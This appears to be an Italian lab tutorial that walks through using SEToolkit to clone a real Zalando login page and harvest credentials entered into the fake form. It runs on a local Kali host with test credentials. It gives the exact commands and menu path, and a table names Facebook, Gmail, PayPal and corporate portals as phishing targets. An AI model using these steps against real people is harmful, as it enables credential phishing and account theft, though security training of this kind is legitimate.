




# Social Engineering Toolkit - Website Cloner

## Obiettivo

Utilizzare SEToolkit per clonare un sito web legittimo e catturare le credenziali inserite dalla vittima in un form di login falso.

## Scenario

L'attaccante crea un clone identico di un sito web (es. Zalando, Facebook, Gmail) e lo ospita su un server controllato. La vittima, convinta di trovarsi sul sito originale, inserisce le proprie credenziali che vengono catturate dall'attaccante.

## Ambiente di test

| Macchina | Ruolo | IP |
|----------|-------|-----|
| Kali Linux | Attaccante | 192.168.23.128 |
| Qualsiasi browser | Vittima | localhost o IP Kali |

## Procedura

### 1. Avvio di SEToolkit

```
sudo setoolkit
```



### 2. Navigazione nei menu

Segui la sequenza:

| Passo | Numero | Menu |
|-------|--------|------|
| 1 | `1` | Social-Engineering Attacks |
| 2 | `2` | Website Attack Vectors |
| 3 | `3` | Credential Harvester Attack Method |
| 4 | `2` | Site Cloner |

### 3. Configurazione del server

Inserisci l'indirizzo IP della macchina Kali che ospiterà il sito falso (o premi semplicemente invio):

```
set> IP address for the POST back in Harvester/Tabnabbing: 192.168.23.128
```

Inserisci l'URL del sito da clonare:

```
set> Enter the url to clone: https://corporate.zalando.com/en/user/login?destination=/en/brand-hub
```

### 4. Avvio del server

SEToolkit clonerà il sito e avvierà un server web sulla porta 80.



### 5. Test dal browser

Dalla macchina vittima, apri un browser e visita:

```
http://192.168.23.128
```

Oppure, se stai testando localmente su Kali stesso:

```
http://localhost
```

### 6. Inserimento credenziali di test

Compila il form di login falso con credenziali di test:

- Email: `test@example.com`
- Password: `password123`



### 7. Cattura delle credenziali

Torna al terminale SEToolkit. Dovresti vedere:



### Output generato da SET

| Campo | Valore | Note |
|-------|--------|------|
| Email | `test@example.com` | Campo username/email |
| Password | `password123` | Campo password |
| Altri parametri | `form_build_id`, `form_id`, `op` | Parametri del form |

### Come fermare il server

Premi `CTRL+C` nel terminale dove è in esecuzione SEToolkit.

Verrà generato un report con tutte le credenziali catturate.

## Possibili utilizzi

| Sito da clonare | Vettore di attacco |
|-----------------|-------------------|
| Facebook, Instagram | Social Engineering |
| Gmail, Outlook | Phishing aziendale |
| PayPal, Amazon | Furto dati finanziari |
| Portali aziendali (ADFS, OWA) | Compromissione corporate |
| Zalando, Amazon | Furto account shopping |

## Note di sicurezza

> **⚠️ AVVERTENZA:** Questo laboratorio è a scopo puramente didattico.

- Il sito clonato è ospitato sul server locale (non su internet)
- Le credenziali non vengono inviate al sito originale
- Questo attacco è efficace solo se la vittima visita il sito clonato (non il sito originale)
- I browser moderni mostrano avvisi se il sito non ha un certificato SSL valido